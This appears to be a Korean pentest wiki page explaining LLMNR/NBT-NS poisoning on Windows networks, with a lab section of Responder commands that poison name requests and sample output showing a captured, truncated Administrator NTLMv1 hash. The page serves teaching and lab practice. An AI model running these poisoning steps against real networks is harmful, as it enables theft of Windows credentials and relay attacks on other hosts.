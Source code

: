 # LLMNR/NBT-NS 포이즈닝

LLMNR/Nbt-NS Poisoning (포이즈닝) - 피해자 호스트의 이름 변화 LLMNR/Nbt-NS 브로드캐스트 요청을 받았을 때 공격자가 LLMNR/Nbt-NS 브로드캐스트 요청에 대답하는 공격이다. 피해자 호스트는 공격자 호스트를 자신이 찾던 호스트로 착각하게 되어 Net-NTLM 인증 트래픽을 공격자에게 보낸다. &#x20;

### 개념

윈도우 워크스테이션과 서버 운영체제에는 LLMNR (Link-Local Multicast Name Resolution)과 Nbt-NS (Netbios Name Service) 라는 레거시 브로드캐스트 (broadcast) 이름 변환 (Name Resolution) 서비스들이 존재한다. 윈도우에서 HTTP나 내부망 쉐어, IP 주소등을 검색하거나 접근하려고 한다면 다음과 같은 우선순위를 기반으로 이름 변환을 시도한다.&#x20;

1. IPv6 - DNS &#x20;
2. IPv4 - DNS&#x20;
3. LLMNR, Nbt-NS, mDNS 등의 레거시 브로드캐스트 이름 변환 서비스 &#x20;

예를 들어 윈도우에서 쉐어를 찾으려고 탐색기에서 `\\fileserver.choi.local\share` 를 검색하려다가 실수로 `\\wronghost.choi.local\share` 를 검색했다고 가정해보자. 그렇다면 현재 호스트는 IPv6 -> IPv4 -> LLMNR, Nbt-NS, mDNS 등의 순서대로 이 호스트를 찾으려고 한다.&#x20;

![IPv4 -> Nbt-NS, mDNS, LLMNR](<../.gitbook/assets/image (2) (1) (2) (1).png>)

### 문제점&#x20;

문제는 LLMNR, Nbt-NS, mDNS 가 옛날에 만들어진, 보안을 생각하지 않고 만든 브로드캐스트 기반의 이름 변환 프로토콜이라는 것이다. 브로드캐스트이기 때문에 같은 서브넷내의 모든 호스트들이 "wronghost.choi.local 이신 호스트 대답 좀 해주세요" 라는 요청을 듣게 된다.&#x20;

레거시 브로드캐스트 프로토콜들은 호스트/사용자 인증을 거치지 않기 때문에 공격자 호스트가 "wronghost.choi.local 찾으세요? 그거 저니까 저한테 사용자 인증 트래픽 보내주세요" 라고 대답할 때 피해자 호스트는 아무런 의심을 하지 않고 Net-NTLM 인증 트래픽을 공격자에게 보내게 된다.&#x20;

### 공격

LLMNR/Nbt-NS 포이즈닝 공격을 통해 피해자 호스트로부터 받은 Net-NTLM 사용자 인증 트래픽은 다음과 같은 공격에 사용된다.&#x20;

* NTLM 다운그레이드 공격 - Net-NTLMv1을 요청하거나 받은 Net-NTLMv1을 암호학적 공격으로 NTLM 해시로 다운그레이드 한 뒤 크래킹하는 공격&#x20;
* NTLM 릴레이 공격 - 받은 Net-NTLM 인증 트래픽을 다른 호스트에게 릴레이 하는 공격&#x20;
* RBCD (Resource Based Constrained Delegation) - TODO&#x20;

LLMNR/Nbt-NS 포이즈닝과 NTLM 릴레이 공격을 하면 피해자 호스트에서 피해자 유저의 사용자 NTLM 인증 트래픽을 SMB 프로토콜 기반의 Net-NTLMv1 혹은 Net-NTLMv2 형식으로 받을 수 있다. 이 사용자 인증 트래픽은 위 공격들에 사용되며, 해당 공격들은 다른 페이지에 따로 서술한다.&#x20;

### 전제 조건

* 현재 서브넷과 DNS로 이름 변환이 불가능한 호스트의 서비스 (대부분 SMB) 를 이용하려 피해자 호스트에서 피해자 유저가 검색한다.&#x20;
  * 실수로 오타 (ex. flieserver), 옛날에 만들어뒀던 scheduled task, 호스트 이름이 바뀌었을 때, 등
* 피해자 호스트가 LLMNR/Nbt-NS 를 사용하도록 설정되어 있다 (윈도우 비스타 이후 기본적으로 활성화되어 있다).&#x20;

### 실습&#x20;

Responder 툴을 이용해 서브넷에서 LLMNR, Nbt-NS, mDNS 트래픽을 수동적으로 듣고만 있는다&#x20;

```
# "Analyze" 모드를 이용, 포이즈닝을 하지않고 트래픽만 확인 
python3 Responder.py -I eth1 -v -A 

<...>
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: NBT-NS] Request by ::ffff:192.168.40.150 for wronghost, ignoring 
[Analyze mode: LLMNR] Request by ::ffff:192.168.40.150 for wronghost, ignoring
```

트래픽을 듣고 있으니`192.168.40.150` 호스트가 Nbt-NS와 mDNS를 이용해 `wronghosts.local` 이라는 호스트를 찾고 있다.&#x20;

이제 능동적으로 포이즈닝 공격을 진행해 피해자 호스트로부터 NTLM 사용자 인증 트래픽을 받아온다.

```
# ESS (SSP) 해제 시도와 함께 포이즈닝 공격 시작 
python3 Responder.py -I eth1 -v --disable-ess

<...>
[*] [MDNS] Poisoned answer sent to fe80::c092:c261:488a:c15c for name wronghost.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghost 
[SMB] NTLMv1-SSP Client   : fe80::c092:c261:488a:c15c                                                            
[SMB] NTLMv1-SSP Username : CHOI\Administrator                                                                   
[SMB] NTLMv1-SSP Hash     : Administrator::CHOI:06B1649C5 <...>
```

피해자 호스트 `192.168.40.150` 가 `wronghost.local` 이 공격자 호스트인줄 알고 NTLM 사용자 인증을 보내왔다. 이제 이 Net-NTLMv1 해시를 가지고 NTLM 릴레이, 다운그레이드, RBCD 공격을 할 수 있게 됐다.&#x20;
